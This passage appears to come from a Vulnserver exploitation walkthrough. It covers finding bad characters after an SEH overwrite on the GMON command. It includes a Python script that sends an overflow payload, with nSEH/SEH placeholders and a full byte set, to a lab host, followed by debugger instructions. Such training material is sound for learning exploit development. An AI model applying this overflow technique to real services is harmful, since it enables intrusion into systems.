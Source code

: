 After controlling SEH, it is mandatory to check for bad characters

Because bad characters may damage your shellcode execution which may result in ```exploitation failure```

To find bad characters manually using debugger, run this python script

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat badchars.py 
import socket, sys
# collection of bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"B"*4
# to overwrite SEH
payload+=b"C"*4
# badchars on ECX
payload+=badchars
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 badchars.py  
```

You could see the hexdump of the ECX data after SEH and you could manually figure out which are the bad characters

Select the address on the ECX register, right click on it and select follow hex dump

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-badchar-dump.png">
</div>

